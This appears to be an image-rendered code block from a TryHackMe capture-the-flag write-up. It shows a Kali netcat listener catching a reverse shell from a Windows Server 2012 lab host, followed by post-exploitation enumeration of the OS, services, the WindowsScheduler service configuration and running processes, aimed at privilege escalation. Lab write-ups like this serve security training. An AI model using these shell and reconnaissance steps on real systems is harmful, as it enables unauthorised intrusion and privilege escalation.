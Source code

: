 ```bash
# Interactive reverse NetCat shell
┌──(kali㉿kali)-[~/tryhackme]
└─$ nc -lvnp 6666   
listening on [any] 6666 ...
connect to [10.14.6.6] from (UNKNOWN) [10.10.41.197] 49225
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
**iis apppool\blog**

# OS version
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600

# Running services
0         Spooler                   1164       Auto       Running  OK       
0         SystemEventsBroker        744        Auto       Running  OK       
0         TermService               1580       Manual     Running  OK       
0         Themes                    916        Auto       Running  OK       
0         TrkWks                    1400       Auto       Running  OK       
0         UALSVC                    1400       Auto       Running  OK       
0         UmRdpService              1400       Manual     Running  OK       
0         W32Time                   980        Manual     Running  OK       
0         W3SVC                     1416       Auto       Running  OK       
0         WAS                       1416       Manual     Running  OK       
0         Wcmsvc                    888        Auto       Running  OK       
0         **WindowsScheduler**          1444       Auto       Running  OK       
0         WinHttpAutoProxySvc       980        Manual     Running  OK       
0         Winmgmt                   916        Auto       Running  OK       
0         WinRM                     476        Auto       Running  OK

# Information of WindowsScheduler
sc qc WindowsScheduler
c:\windows\system32\inetsrv>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

# Running processes
tasklist
C:\Program Files (x86)\SystemScheduler>tasklist
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0                            0          4 K
System                           4                            0        276 K
smss.exe                       376                            0      1,052 K
csrss.exe                      528                            0      3,528 K
csrss.exe                      584                            1      8,996 K
wininit.exe                    592                            0      3,408 K
winlogon.exe                   620                            1      5,788 K
services.exe                   676                            0      5,240 K
**Message.exe**                    **784**                            1      7,300 K
```